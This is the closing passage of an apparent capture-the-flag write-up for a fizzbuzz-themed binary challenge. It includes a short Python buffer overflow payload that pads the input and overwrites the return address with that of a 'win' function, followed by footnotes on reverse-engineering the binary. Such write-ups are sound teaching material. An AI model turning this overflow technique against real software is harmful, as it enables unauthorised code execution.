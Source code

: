 ```py
padding = b"A"*86 + b"BBBBCCCCDDDDEEEE"
# literally just the address of the win function
address = p32(0x08048656)

# this replaces the last print line
win = b"0 " + padding + address
```

~~Ever seen a 500 point buffer overflow with no ASLR?~~

---

<b id="f1">1</b> There are no symbols, so to find the `main` function we need to find the `entry` function and go to the function specified within `__libc_start_main(...)` [↩](#a1)

<b id="f2">2</b> The rules of fizzbuzz, in case you don't know: you count up starting from 1. However, if the number is a multiple of 3, you say "fizz" instead of the number. You say "buzz" if it is a multiple of 5, and then "fizzbuzz" if it is a multiple of both. [↩](#a2)

<b id="f3">3</b> Alternatively, we could have found this function by just scrolling up from `do_fizzbuzz` because it's right above it in the executable. [↩](#a3)
